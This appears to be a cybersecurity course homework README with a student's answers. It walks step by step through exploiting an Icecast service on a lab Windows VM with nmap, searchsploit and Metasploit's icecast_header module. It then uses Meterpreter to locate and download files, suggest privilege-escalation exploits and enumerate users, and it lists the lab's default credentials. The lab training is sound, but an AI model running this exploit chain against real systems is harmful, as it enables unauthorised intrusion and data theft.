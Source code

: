 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Report/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
      > ![](Images/nmap.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`
     > ![](Images/searchsploit_icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
      > Answer: `msfconsole`
      >![](Images\msfconsole.png) 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use exploit/windows/http/icecast_header`
     > Answer: `use 0`
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: exploit
     > Answer: run
     > ![](Images/searchicecast.png)
  
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `dir *secretfile.txt* /s /p`
     > Found C:\Users\IEUser\Documents\user.secretfile.txt
     > ![](Images/secretfile.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `dir *recipe.txt* /s /p`
      > Found C:\Users\IEUser\Documents\Drinks.recipe.txt
      > ![](Images/find_recipe.png)
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: `download Users/IEUser/Documents/Drinks.recipe.txt`
      > ![](Images/download_recipes.png)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. 
   - Keep in mind that the listed suggestions may not include all available exploits.

    > Command: `run post/multi/recon/local_exploit_suggestor` 
    > Found 2 other possible exploits: 
    > `exploit/windows/local/ikeext_service`
    > `exploit/windows/local/ms16_075_reflection`

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: `run post/windows/gather/enum_logged_on_users`
  > ![](Image/enum_users.png)
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: 
  > `shell`
  > `systeminfo`
  > ![](Images/systeminfo.png)
 
C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`
   > ![](Images/sysinfo.png)

---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
